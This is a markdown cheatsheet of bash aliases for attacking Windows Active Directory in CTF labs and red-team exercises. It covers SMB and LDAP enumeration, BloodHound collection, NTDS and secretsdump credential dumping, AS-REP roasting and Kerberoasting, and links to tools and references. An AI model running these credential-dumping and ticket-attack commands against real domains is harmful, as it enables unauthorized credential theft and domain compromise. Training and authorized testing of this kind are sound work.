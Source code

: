 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
alias smbshare='smbclient -L \\\\TARGET\\ -N'
alias smbconnect='smbclient \\\\TARGET\\SHARE'
alias smbuser='smbclient -L \\\\TARGET\\ -U'
alias enum4='enum4linux-ng -a'
alias enumuser='enum4linux -u USERNAME -p PASSWORD -a TARGET'
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r 10.10.10.0/24'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
alias bloodhound='bloodhound-python -u USER -p PASSWORD -dc-ip DC_IP -c all'

# 🗂️ Password & Hash Dumping
alias secretsdump='secretsdump.py DOMAIN/USER:PASSWORD@TARGET'
alias dumpntds='secretsdump.py -just-dc DOMAIN/USER:PASSWORD@DC_IP'
alias hashgrab='impacket-secretsdump'
alias ridbrute='rpcclient -U "" TARGET -N -c "enumdomusers"'

# 📜 Kerberos Ticket Attacks
alias asreproast='GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass -dc-ip TARGET'
alias kerberoast='GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip TARGET -request'
alias tgt='klist'
alias renewtgt='kinit USERNAME@DOMAIN'
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
alias kerbcheck='nmap --script "krb5-enum-users" -p 88 TARGET'
alias noauthrpc='rpcclient -U "" -N TARGET'
alias authrpc='rpcclient -U USER%PASSWORD TARGET'

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)

